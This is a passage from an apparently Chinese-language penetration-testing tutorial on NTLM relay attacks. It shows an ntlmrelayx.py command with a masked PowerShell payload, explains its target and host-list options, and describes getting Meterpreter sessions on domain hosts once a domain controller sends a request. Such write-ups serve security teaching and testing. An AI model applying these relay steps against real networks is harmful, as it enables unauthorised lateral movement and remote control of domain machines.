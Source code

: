 ```bash
./ntlmrelayx.py -t ip -c "xxxxxxxxx" -smb2support

#参数说明：
-t : 单一主机
-tf: 主机文件列表，例如:ip.txt
-c : powershell 命令
```

[![](assets/1701222524-63fc6eda1b83be0d2f1e8cd405353176.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144906-39678f24-8dba-1.png)  
Step 4：当域控发起请求时，通过 NTLM 中继，我们可以成功获取到目标主机的 Meterpreter 会话，如果我们将之前的参数"-t"改为"-tf"，即可获取 ip.txt 文件中的所有域内主机的 Meterpreter 会话  
[![](assets/1701222524-351dbfc28515fd25bb0c14ece3e6f728.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144924-44251b84-8dba-1.png)

### NTLM 中继

